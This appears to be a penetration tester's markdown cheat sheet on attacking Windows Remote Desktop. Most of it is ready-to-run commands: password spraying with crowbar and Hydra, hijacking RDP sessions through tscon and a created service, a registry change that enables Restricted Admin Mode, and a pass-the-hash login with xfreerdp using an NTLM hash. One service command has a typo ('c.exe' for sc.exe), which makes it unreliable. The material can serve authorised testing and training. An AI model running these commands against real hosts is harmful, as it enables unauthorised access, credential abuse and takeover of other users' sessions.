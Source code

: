 # #Misconfigurations 

### Password guessing 
#### Using [crowbar](https://github.com/galkan/crowbar)
```shell-session
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
```
#### #Hydra 
```shell-session
 hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```

## Session Hijacking 

Need to have #SYSTEM privilege and used [tscon.exe](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/tscon)

```cmd
 tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

Local #admin privileges 
```cmd
query user
```

```cmd
c.exe create sessionhijack binpath= "cmd.exe /k tscon 1 /dest:rdp-tcp#0"
```

```cmd
net start sessionhijack
```

## RDP Pass-the-Hash (PtH)

Caveats 
- `Restricted Admin Mode`, which is disabled by default, should be enabled on the target host; otherwise, we will be prompted with the following error:
```cmd
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

```shell
xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9
```

## Latest Vulns
[Blue Keep CVE-2019-0708](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2019-0708)
